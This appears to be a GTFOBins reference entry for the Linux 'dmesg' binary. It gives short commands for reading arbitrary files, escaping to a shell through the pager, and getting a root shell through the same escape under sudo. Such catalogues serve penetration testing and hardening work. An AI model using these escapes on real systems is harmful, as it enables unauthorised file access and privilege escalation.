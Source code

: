 functions:
  file-read:
    - description: This is not suitable for binary files.
      code: |
        LFILE=file_to_read
        dmesg -rF "$LFILE"
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        dmesg -H
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo dmesg -H
        !/bin/sh
---
